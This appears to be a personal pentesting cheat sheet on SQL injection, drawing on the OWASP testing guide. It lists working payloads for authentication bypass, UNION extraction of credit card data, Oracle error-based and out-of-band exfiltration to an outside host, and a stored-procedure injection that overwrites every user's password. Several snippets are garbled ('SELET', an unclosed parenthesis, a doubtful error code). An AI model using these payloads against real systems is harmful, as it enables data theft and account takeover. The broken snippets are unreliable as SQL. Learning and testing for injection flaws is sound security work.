 # SQL Injection

## Standard Exploitation

* Add an always true condition :
  * `1' or '1' = '1`
  * `1' or 1 = 1 #` \(comment instead of closing the string\)

```sql
# Transform this request : 
SELECT * FROM Users WHERE Username=’$username’ AND Password=’$password’

# To that : 
SELECT * FROM Users WHERE Username=’admin’ AND Password=’1’ OR ‘1’ = ‘1’
```

* Use `LIMIT` if needed
* Stack request by terminating them with `;`

## Union Exploitation

* Extend a `SELECT` request with an `UNION`

```sql
# Tansform this request :
SELECT Name, Phone, Address FROM Users WHERE Id=$id

# To that :
SELECT Name, Phone, Address FROM Users WHERE Id=1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable
```

* The select of your union needs to have the same number of columns as the initial select, and of the same type
  * To guess the right number of columns, use `ORDER BY <nb>` \(if it returns a result instead of an error, it's the right number\)
  * To guess the type, start with `NULL` and check the error message
* `ALL` is used against `DISTINCT`
* If only the first result is shown \(aka, the one from the initial request\), give an invalid id so that it's the result of the union which will be use

## Error Based Exploitation

* With oracle, use this type of payload :

```sql
|| UTL_INADDR. GET_HOST_NAME((SELECT user FROM DUAL)) --
```

* It'll return : `ORA-292257: host SCOTT unknown`, revealing the user

{% hint style="info" %}
Check the syntax for other DBMS
{% endhint %}

## Out of band exploitation

* With Oracle

```sql
|| UTL_HTTP. request(‘testerserver.com:80’ || (SELET user FROM DUAL) --
```

{% hint style="info" %}
* Isn't a `)` missing ?
* Check the syntax for other DBMS
{% endhint %}

## Stored Procedure Injection

* This type of syntax exist

```sql
Create procedure get_report @columnamelist varchar(7900) As Declare @sqlstring varchar(8000) Set @sqlstring = ‘ Select ‘ + @ columnamelist + ‘ from ReportTable‘ exec(@sqlstring) Go
```

* Which we can abuse with  :`1 from users; update users set password = ‘password’; select *`
* But i don't know this syntax so i don't know how it works

## Insider Info

If you have an injection in a place where doing an `1'or '1'='1` isn't useful, you may still be able to use it to show the table name & structure by injecting an sql command

## Sources

* [Owasp testing guide v4](https://owasp.org/www-project-web-security-testing-guide/assets/archive/OWASP_Testing_Guide_v4.pdf)
* Misc research

